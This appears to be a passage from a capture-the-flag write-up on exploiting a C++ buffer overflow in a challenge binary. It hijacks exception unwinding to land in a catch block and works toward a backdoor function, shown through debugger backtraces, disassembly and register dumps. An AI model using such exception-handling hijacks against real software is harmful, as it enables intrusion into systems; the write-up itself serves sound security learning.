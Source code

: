```cpp
──────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────────────
 ► 0         0x404056 __cxa_throw+54
   1         0x402178 raise(char const*)+83
   2         0x4026b2 ProtectedBuffer<64ul>::check()+62
   3         0x4024e3 void ProtectedBuffer<64ul>::mut<BOFApp::launch()::{lambda(char*)#1}>(BOFApp::launch()::{lambda(char*)#1} const&)+51
   4         0x40245a BOFApp::launch()+62
   5       0xdeadbeef
   6       0xdeadbeef
   7       0xdeadbeef
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
So, if we want to continue the flow execution in main, we much provide exactly where the address of the catch block is, so we can continue to exploit it that don't terminate program.
    
I have found out the address `0x4022de` that make program continue execution because it is where the catch block lie. 
    
```cpp
  0x41acdd <_Unwind_RaiseException+909>    mov    r14, qword ptr [rbp - 0x10]
   0x41ace1 <_Unwind_RaiseException+913>    mov    r15, qword ptr [rbp - 8]
   0x41ace5 <_Unwind_RaiseException+917>    mov    rbp, qword ptr [rbp]
   0x41ace9 <_Unwind_RaiseException+921>    mov    rsp, rcx
   0x41acec <_Unwind_RaiseException+924>    pop    rcx
 ► 0x41aced <_Unwind_RaiseException+925>    jmp    rcx                           <main+116>
    ↓
   0x4022f1 <main+116>                      endbr64 
   0x4022f5 <main+120>                      mov    rbx, rax
   0x4022f8 <main+123>                      lea    rax, [rbp - 0x18]
   0x4022fc <main+127>                      mov    rdi, rax
   0x4022ff <main+130>                      call   std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()                      <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()>
``` 
We sucessfully change it flow!
But, how can we execute the `backdoor()` function, because it will call to `exit()` to terminate the program with out return.
 
Next, it will call to the destructor of this object, let's go deeper:
```cpp
0x4022f1 <main+116>                      endbr64 
   0x4022f5 <main+120>                      mov    rbx, rax
   0x4022f8 <main+123>                      lea    rax, [rbp - 0x18]
   0x4022fc <main+127>                      mov    rdi, rax
 ► 0x4022ff <main+130>                      call   std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()                      <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()>
        rdi: 0x7ffe1006ece8 —▸ 0x7ffe1006ed40 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
        rsi: 0x4022f1 (main+116) ◂— endbr64 
        rdx: 0x1
        rcx: 0x4022f1 (main+116) ◂— endbr64     
```
